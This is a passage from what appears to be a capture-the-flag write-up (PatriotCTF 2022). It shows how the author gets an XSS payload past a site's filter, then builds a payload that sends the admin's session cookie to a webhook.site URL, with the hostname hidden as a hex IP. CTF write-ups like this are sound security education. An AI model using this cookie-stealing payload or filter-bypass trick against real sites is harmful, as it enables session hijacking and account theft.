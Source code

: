 There is a filter in place, so let's get around it. Let's try this payload: `<svg onload=alert("xss")//`
<p align="center"><img src="https://github.com/NihilistPenguin/PatriotCTF2022-Writeups/raw/main/writeup-images/xss_attempt_success.png" width=40%  height=40%></p>

Sweet, let's read our messages to see if we successfully XSS ourselves:
<p align="center"><img src="https://github.com/NihilistPenguin/PatriotCTF2022-Writeups/raw/main/writeup-images/xss_alert.png" width=40%  height=40%></p>

Success!

Now we need to craft a payload that steals the admin user session cookie and bypass the filters in place. To receive back a request, I used https://webhook.site/ and received the following unique URL: `http://webhook.site/6db432a0-7984-4146-9fbc-d6278b9f865f`. There is a single period in the address. To get around this, I `ping webhook.site` to get the ip address (46.4.105.116). From here, we can [convert that ip address to hex](https://onlinehextools.com/convert-ip-to-hex), and we get `(0x2e046974)`. If you try going to http://0x2e046974, it will properly resolve to the correct ip address and hostname, which is neat. Our unique URL is now: http://0x2e046974/6db432a0-7984-4146-9fbc-d6278b9f865f. 

Here is the XSS payload: `<svg onload=document['location']="http://0x2e046974/6db432a0-7984-4146-9fbc-d6278b9f865f/?c="+document['cookie']//`

